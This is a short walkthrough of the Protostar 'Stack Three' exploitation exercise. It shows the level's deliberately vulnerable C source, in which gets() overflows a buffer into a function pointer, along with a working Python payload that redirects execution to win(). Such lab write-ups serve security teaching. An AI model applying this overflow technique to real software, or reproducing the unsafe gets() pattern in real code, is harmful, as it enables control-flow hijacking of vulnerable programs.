

# Stack Three

## Description

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

* both gdb and objdump is your friend you determining where the win() function lies in memory.

This level is at /opt/protostar/bin/stack3

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## Exploit code

```python
payload =  "A"*64
payload += "\x24\x84\x04\x08"   # addr of `win` function
print(payload)
```

Level passed!

<p align="center">
  
</p>